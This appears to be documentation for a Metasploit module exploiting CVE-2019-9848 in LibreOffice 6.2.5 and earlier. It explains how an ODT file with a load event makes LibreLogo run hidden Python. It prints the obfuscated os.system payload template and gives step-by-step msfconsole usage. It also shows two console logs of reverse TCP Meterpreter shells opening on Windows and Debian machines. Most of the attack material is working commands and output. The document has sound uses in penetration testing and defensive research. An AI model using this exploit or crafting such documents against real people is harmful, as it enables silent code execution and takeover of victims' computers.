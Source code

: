 ## Description

  This module exploits CVE-2019-9848 and is based on the module exploiting CVE-2018-16858, written by Shelby Pace.

  LibreOffice has a feature where documents can specify that pre-installed scripts can be executed on various document events such as mouse-over, etc. LibreOffice is typically also bundled with LibreLogo, a programmable turtle vector graphics script, which can be manipulated into executing arbitrary python commands. 

  By using the document event feature to trigger LibreLogo to execute python contained within a document a malicious document could be constructed which would execute arbitrary python commands silently without warning. 

  This module generates an ODT file with a dom loaded event that, when triggered, will execute any arbitrary python code and the metasploit payload. LibreLogo executes the python code stored on the text part of the document.

  The generated document file contains a one-liner python code that calls `os.system`: 

  ```python
  getattr(__import__(“os”),“system”)(“<%= @cmd %>”)
  ```

  but encoded :

  ```xml
  <text:p text:style-name="P8">&#x67;&#x65;&#x74;&#x61;&#x74;&#x74;&#x72;(&#x5f;&#x5f;&#x69;&#x6d;&#x70;&#x6f;&#x72;&#x74;&#x5f;&#x5f;(&#x201C;\x6f\&#x78;73&#x201D;),&#x201C;\&#x78;73\&#x78;79\&#x78;73\&#x78;74\x65\&#x78;6d&#x201D;)(“<%= @cmd %>”)</text:p>
  ```

  To avoid any python error, the `h1` title written in the document is a python comment `#`.

## Vulnerable Application

  LibreOffice version 6.2.5 and prior.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/fileformat/libreoffice_logo_exec```
  4. Do: ```set LHOST <ip>```
  5. Do: ```set LPORT <port>```
  6. Do: ```run```
  7. Move the generated file to the target
  8. Start a handler
  9. Open the file with a vulnerable version of LibreOffice
 10. You should get a shell.

## Scenarios

### Tested on LibreOffice 6.2.4 running Windows 7

  ```
  msf5 > use exploit/multi/fileformat/libreoffice_logo_exec 
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > run

  [+] librefile.odt stored at /home/foobar/.msf4/local/librefile.odt
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > use multi/handler
  msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.33.1:4444 
  [*] Sending stage (179779 bytes) to 192.168.33.102
  [*] Meterpreter session 3 opened (192.168.33.1:4444 -> 192.168.33.102:46327) at 2019-07-29 03:33:03 -0400

  meterpreter > 
  ```

### Tested on LibreOffice 6.2.4 running Debian 9.9

  ```
  msf5 > use exploit/multi/fileformat/libreoffice_logo_exec 
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > run

  [+] librefile.odt stored at /home/foobar/.msf4/local/librefile.odt
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > use multi/handler
  msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.33.1:4444 
  [*] Sending stage (985320 bytes) to 192.168.33.117
  [*] Meterpreter session 5 opened (192.168.33.1:4444 -> 192.168.33.117:43602) at 2019-07-29 04:44:04 -0400

  meterpreter > getuid
  Server username: uid=1001, gid=1001, euid=1001, egid=1001
  meterpreter > 
  ```
